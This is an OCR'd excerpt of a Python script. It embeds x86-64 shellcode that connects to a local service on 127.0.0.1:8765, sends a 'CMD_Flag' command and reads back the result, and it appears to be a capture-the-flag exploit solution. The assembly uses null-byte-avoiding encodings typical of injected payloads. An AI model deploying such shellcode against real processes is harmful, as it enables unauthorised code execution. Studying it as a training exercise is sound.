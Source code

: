 ```python
        mov r8, rax
    """

    # info.sin_family = AF_INET;
    # info.sin_addr.s_addr = inet_addr("127.0.0.1");
    # info.sin_port = htons(8765);
    # connect(fd, (struct sockaddr *)&info, sizeof(info));
    connect = """
        xor rax, rax
        mov al, 0x2a

        mov rdi, r8

        mov rsi, 0xffffffffffffffff
        mov r9, 0xfeffff80c2ddfffd
        sub rsi, r9
        push rsi
        mov rsi, rsp

        xor rdx, rdx
        mov dl, 0x10

        syscall
    """

    # struct Command cmd;
    # cmd.cmd = 0x8787; // #define CMD_Flag 0x8787
    # write(fd, &cmd, sizeof(cmd));
    write = """
        xor r9, r9
        mov r9w, 0x8787
        push r9

        xor rax, rax
        mov al, 0x1

        mov rdi, r8

        mov rsi, rsp

        xor rdx, rdx
        mov dl, 0xa4

        syscall
    """

    # read(fd, $rsp, sizeof(res));
    read = """
        xor rax, rax

        mov rdi, r8

        mov rsi, rsp

        xor rdx, rdx
        mov dx, 0x104

        syscall
    """

    # write(1, $rsp, 0x40);
    write2console = """
        xor rax, rax
```